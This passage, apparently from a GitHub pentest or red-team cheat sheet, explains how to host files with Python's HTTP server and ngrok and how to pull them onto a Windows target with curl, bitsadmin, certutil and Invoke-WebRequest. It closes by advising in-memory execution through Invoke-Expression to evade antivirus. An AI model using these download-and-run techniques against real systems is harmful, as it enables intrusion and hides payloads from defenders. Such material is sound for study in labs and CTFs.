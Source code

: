 This is a two step approach where we create a server and then upload/download it.

<a id=3.1></a>
## Setting up a web server in Python

We'll need to have Python 2 (SimpleHTTPServer) or Python 3 (http.server) installed in our machines or the attacker machine.
We can use this module to create an HTTP server and download files.

```bash
$ python2 -m SimpleHTTPServer [PORT]
$ python3 -m http.server [PORT]
```

This is okay for a home lab, but in a real pentest I'd use another tool.

<a id=3.1></a>
## Setting up a web server in Ngrok

Ngrok is more than a web server. You can go ahead to the Ngrok's webpage and check that it's actually used for, but we'll
weaponize this tool :)

```bash
$ pacman -S Ngrok
$ ngrok add-authtoken [AUTH_TOKEN]
$ ngrok http 80
```

And you're done :) use this for CTFs or pentests.

<a id=3.2></a>
## Transferring Files to a Windows system

It's quite an easy task to do, more so in newer Windows systems. Powershell has given us red teamers a lot of tools to work with,
that isn't good from a defender perspective, but thanks Microsoft, I guess.

```bash
PS C:\> curl [URL] -OutFile C:\path\to\save
C:\> bitsadmin /transfer debjob /download /priority normal [URL] C:\path\to\save
# for those who don't know: using the certutil binary in Windows 7 or previous is a tough job. so go with BITSadmin.
C:\> certuitl -urlcache -f [URL] C:\path\to\save
# classic certutil.
PS C:\> Invoke-WebRequest [URL] -UseBasicParsing -o C:\path\to\save
PS C:\> Invoke-WebRequest [URL] -UseBasicParsing -OutFile C:\path\to\save
PS C:\> curl [URL] -UseBasicParsing -OutFile C:\path\to\save
# same thing :) curl in windows is an alias for Invoke-WebRequest.
PS C:\> Invoke-RestMethod [URL] -o C:\path\to\save
PS C:\> Invoke-RestMethod [URL] -OutFile C:\path\to\save
```

As we can see, there are a lot of ways in which we could download files from a webpage. If we are smart, we won't download any file,
but rather we'd pass them to the Invoke-Expression built-in module of Powershell. Thus, our program would run in memory, which as we
know from the AV evasion, it's easier to conceal, or rather harder to detect by an AV solution :)
